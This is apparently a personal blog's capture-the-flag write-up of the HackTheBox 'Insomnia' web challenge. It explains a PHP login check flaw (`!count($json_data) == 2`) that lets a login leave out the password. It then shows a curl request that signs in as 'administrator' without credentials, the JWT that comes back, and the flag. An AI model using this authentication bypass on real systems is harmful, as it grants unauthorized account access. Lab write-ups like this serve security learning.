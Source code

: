 ```yaml
---
title: "[HTB] Insomnia Writeup \U0001F4A4"
cover: >-
  https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories: CTF
tags:
  - HTB
  - Web
  - HackTheBox
abbrlink: cab519b8
date: 2024-07-16 17:49:39
---
```


# 0x00 Challeng Info

It's a web challenge, so it gives us a website and the source code for us to analyze. Let's see the description first.

> Welcome back to Insomnia Factory, where you might have to work under the enchanting glow of the moon, crafting dreams and weaving sleepless tales.

Well, although it's not helpful, it's still a romantic setting for this challenge (you know, programmers & hackers always work at night).

# 0x01 Analyze

Since it gave us the source code, we should check it out first. The most important thing is under the **controller directory** (`Insomnia/web_insomnia/Insomnia/app/Controllers`), because it's where the backend interact with users. 

I check out the `ProfileController.php`, and find something interesting.

```php
if ($username == "administrator") {
    return view("ProfilePage", [
        "username" => $username,
        "content" => $flag,
    ]);
} else {
    $content = "Haven't seen you for a while";
    return view("ProfilePage", [
        "username" => $username,
        "content" => $content,
    ]);
}
```

So if we can login as **administrator**, then we can get the flag. Now the question is how we are able to do that. To know how, we should then find the answer in the login function, which is in `UserController.php`.

After analyzing the code, we can found that there's an logic error in the code that the developer doesn't notice it. In the `login()` function, the developer use `if (!count($json_data) == 2)` to check if the login data we passed has 2 arguments. But if we think it carefully, we can know that it's different to `if (count($json_data) !== 2)`. Here's are the differences.

1. `if (!count($json_data) == 2)`
   - First, it calculate `count($json_data)`, and it's an INT.
   - Then, the "!" negates the result we get. So if `count($json_data)` does not equals to 0, the expression will get a **false**. Anyways, it will get a **BOOL** as it's data type.
   - Finally, it checks whether the **BOOL** is equivalent to an **INT**, so the expression will always be a **false**, in other words, **the program will never go into this if statement**. 
2. `if (count($json_data) !== 2)`
   - It calculate the `count($json_data)` and properly compare the number with 2.
   - So this is the correct way to check if the data count is legal.

The next thing you should know is everytime we sign in, the system will give us a token to verify our identitys. The following is the complete code of `ProfileController.php`

```php
<?php

namespace App\Controllers;

use App\Controllers\BaseController;
use CodeIgniter\HTTP\ResponseInterface;
use Config\Paths;
use Firebase\JWT\JWT;
use Firebase\JWT\Key;

class ProfileController extends BaseController
{
    public function index()
    {
        $token = (string) $_COOKIE["token"] ?? null;
        $flag = file_get_contents(APPPATH . "/../flag.txt");
        if (isset($token)) {
            $key = (string) getenv("JWT_SECRET");
            $jwt_decode = JWT::decode($token, new Key($key, "HS256"));
            $username = $jwt_decode->username;
            if ($username == "administrator") {
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $flag,
                ]);
            } else {
                $content = "Haven't seen you for a while";
                return view("ProfilePage", [
                    "username" => $username,
                    "content" => $content,
                ]);
            }
        }
    }
}
```

So the final step is to sign in as administrator and copy the token we get. Let's hack the planet!

# 0x02 Exploit

To sign in, I tried to use the browser to send the request first. But it won't work since the key "password" is still assigned a value of null string just like below. That way, we can't sign in due to the wrong password.

![Password is assigned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716214725811.png)

To bypass this, I use **curl** to help me to send the request. The payload is the URL and the data, which is the username.

```bash
curl http://94.237.51.8:32663/index.php/login --data-raw '{"username": "administrator"}'
```

And the terminal will shows the response, then we can copy the token just like this.

```bash
{"message":"Login Succesful","token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE3MjExMjMwODEsImV4cCI6MTcyMTE1OTA4MSwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.fMLAS55mm69_aqQWEhehVlspjCvpfHJzOp4vy91Zjv8"}
```

The final step is going to `/index.php/profile` and paste the token we just got (by using the devtool to modify the token cookie). After refreshing the page, we can get the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240716215517124.png)

# 0x03 Pwned

```
HTB{I_just_want_to_sleep_a_little_bit!!!!!}
```

